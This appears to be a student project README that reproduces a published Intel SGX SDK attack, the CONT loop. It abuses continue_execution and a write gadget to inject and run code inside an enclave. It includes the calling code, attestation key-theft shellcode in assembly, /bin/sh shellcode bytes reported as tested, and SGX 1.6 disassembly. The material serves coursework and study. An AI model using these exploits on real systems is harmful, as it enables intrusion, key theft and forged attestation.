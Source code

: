 # This is the Final Product

## How Attack Works
The paper introduces two attacks, ORET-CONT loop and CONT loop. asm_oret is a function that restores some registers and is used to switch context after an OCALL. continue_execution is a function that restores all general purpose registers after an exception. 

This project uses the CONT loop.
Using the CONT loop, the attack uses a write gadget, which is part of "do_rdrand".
```
    mov dword ptr [rcx], eax
    mov eax, 1
    ret
```
Using ROPgadget or just reading the enclave.signed.io we can get addresses of asm_oret, continue_execution, and write gadget. 

The initial attack is conducted by calling the continue_execution using:
```
__asm__(
        "mov %0, %%rdi\n"
        "call %1\n"
        : // no output
        : "r" (tmp), "r" (addr)
        : "rdi"
    );
```
Which sets the rdi to the crafted context (register values we want to plant into the system) and calls continue_execution. This part is primitive but there are multiple ways to call continue_execution. 

### Ways to call continue_execution
To call continue execution you need two things. Control over the rdi register (to pass the crafted context) and the rip register (since we need to call this function). Any memory vulnerability that allows this can be used. 

Paper introduces the use of asm_oret to do this. To use asm_oret we only need buffer overflow. Paper states to overflow the return address to the address of asm_oret followed by the crafted context for oret to use (which will carry the rdi value for continue_execution and the stack will probably end with address of continue execution to start the ORET-CONT loop). 

the ORET-CONT loop allows asm_oret to call continue_execution. continue_execution will call the gadget and since continue_execution controls the rsp, asm_oret can be called after the gadget. 

### After continue_execution

One distinct part of this attack is that we need some structures (crafted stack and context) within the memory accessible to the enclave. This does not require this structure to be within trusted memory as enclave has access to untrusted memory. To do this structure is written within the application code. 

The stack is filled with the address to continue_execution. And cpu_context is crafted containing a rflag (not setting rflag seem to trigger Trace/Breakpoint signal) to 530. rax is set to the 4 bytes of code to be written and rcx points to the destination to write the code.

The paper becomes rather vague about this destination. Basically the write gadget is used to write code into this area and continue execution will execute the code by changing the rip to the first instruction of injected code. 

So this is basically a ROP based code injection displaying the Guards Dilemma where SGX SDK is tricked by the attacker to inject and execute malicious code. (In that sense we cover a lot of things we saw in this class)

### The injected code

For sake of simplicity the code is injected into the stack. That is the fake stack we created. There are two injected codes one is commented out because it doesn't work. This is due to the 'enclu' instruction. This instruction is specifically for SGX CPU regarding enclaves. 

### Injected Code #1 (commented out) Remote Attestation Attack

The benefit of this attack is the ROP code is executed within the enclave. This allows the attacker to attack remote attestation and act as if they are the enclave. This shell code is introduced within the paper. The bytes are successfully printed into the stack however it is not disassembled properly (due to enclu).

Code injection can be done on application level however this attack displays how much power continue_execution gives to the attacker. Not only do we control return address like a traditional buffer overflow based ROP but we control every general purpose register. 

The shell code introduced in the paper:
```
### Initial register state :
### rax = 0 ( EREPORT leaf )
### rbx = EEXIT return address
### rcx = 512+512+64
### ( total size of structures )
### rdx = writable 512 - byte aligned enclave
### area for temporary data
### rdi = writable 512 - byte aligned enclave
### area to copy structures into
### rsi = address of attacker ’s KEYREQUEST +
### TARGETINFO + REPORTDATA
### rbp = address of attacker ’s key buffer
### rsp = writable area for shellcode stack
push rbx
push rdi
### Copy KEYREQUEST , TARGETINFO ,
### REPORTDATA to enclave memory
rep movsb
### EREPORT
lea rcx , [ rdi -64]
lea rbx , [ rcx -512]
enclu
### Copy report ’s ISVSVN to KEYREQUEST
pop rbx
mov ax , [ rdx +258]
mov [ rbx +4] , ax
### Copy report ’s CPUSVN to KEYREQUEST
vmovdqa xmm0 , [ rdx ]
vmovdqu [ rbx +8] , xmm0
### Copy report ’s KEYID to KEYREQUEST
vmovdqa ymm0 , [ rdx +384]
vmovdqu [ rbx +40] , ymm0
### EGETKEY
push rdx
pop rcx
mov al , 1
enclu
### Copy key to attacker ’s memory
movdqa xmm0 , [ rdx ]
movdqu [ rbp ], xmm0
### EEXIT to attacker ’s code
pop rbx
mov al , 4
enclu

```

### Injected Code #2 Shell (tested on Ubuntu 20.04 VM and Ubuntu 18 Server Azure)

To test the injection and execution of code we used basic shell code.

```
            6a 42                   push   0x42
            58                      pop    rax
            fe c4                   inc    ah
            48 99                   cqo
            52                      push   rdx
            48 bf 2f 62 69 6e 2f    movabs rdi, 0x68732f2f6e69622f
            2f 73 68
            57                      push   rdi
            54                      push   rsp
            5e                      pop    rsi
            49 89 d0                mov    r8, rdx
            49 89 d2                mov    r10, rdx
            0f 05                   syscall
```
This can be done without using enclave. Actually it can be done easier that way however the purpose of this is to present how we can control registers to inject code and execute them (like done in the paper).

# SGX 1.6
The SGX 1.6 is the lowest version available in Linux-IntelSGX github. The paper discusses this version and other post 2.0 versions and there differences in implementing key functions such as asm_oret and continue_execution.

### asm_oret (sgx1.6)
   0x7fe0a5ad7c17:	mov    %rdi,%rsp
   0x7fe0a5ad7c1a:	mov    %rsi,%rax
   0x7fe0a5ad7c1d:	mov    0x38(%rsp),%r15
   0x7fe0a5ad7c22:	mov    0x40(%rsp),%r14
   0x7fe0a5ad7c27:	mov    0x48(%rsp),%r13
   0x7fe0a5ad7c2c:	mov    0x50(%rsp),%r12
   0x7fe0a5ad7c31:	mov    0x58(%rsp),%rbp
   0x7fe0a5ad7c36:	mov    0x60(%rsp),%rdi
   0x7fe0a5ad7c3b:	mov    0x68(%rsp),%rsi
   0x7fe0a5ad7c40:	mov    0x70(%rsp),%rbx
   0x7fe0a5ad7c45:	add    $0x98,%rsp
   0x7fe0a5ad7c4c:	retq 

### continue_execution (sgx1.6)
   0x7fe0a5ad7cee:	mov    %rdi,%rcx
   0x7fe0a5ad7cf1:	mov    0x20(%rcx),%rdx
   0x7fe0a5ad7cf5:	mov    %rdx,%rsp
   0x7fe0a5ad7cf8:	sub    $0x8,%rsp
   0x7fe0a5ad7cfc:	mov    0x88(%rcx),%rax
   0x7fe0a5ad7d03:	mov    %rax,(%rsp)
   0x7fe0a5ad7d07:	mov    (%rcx),%rax
   0x7fe0a5ad7d0a:	mov    0x10(%rcx),%rdx
   0x7fe0a5ad7d0e:	mov    0x18(%rcx),%rbx
   0x7fe0a5ad7d12:	mov    0x28(%rcx),%rbp
   0x7fe0a5ad7d16:	mov    0x30(%rcx),%rsi
   0x7fe0a5ad7d1a:	mov    0x38(%rcx),%rdi
   0x7fe0a5ad7d1e:	mov    0x40(%rcx),%r8
   0x7fe0a5ad7d22:	mov    0x48(%rcx),%r9
   0x7fe0a5ad7d26:	mov    0x50(%rcx),%r10
   0x7fe0a5ad7d2a:	mov    0x58(%rcx),%r11
   0x7fe0a5ad7d2e:	mov    0x60(%rcx),%r12
   0x7fe0a5ad7d32:	mov    0x68(%rcx),%r13
   0x7fe0a5ad7d36:	mov    0x70(%rcx),%r14
   0x7fe0a5ad7d3a:	mov    0x78(%rcx),%r15
   0x7fe0a5ad7d3e:	pushq  0x80(%rcx)
   0x7fe0a5ad7d44:	popfq  
   0x7fe0a5ad7d45:	mov    0x8(%rcx),%rcx
   0x7fe0a5ad7d49:	retq  
 
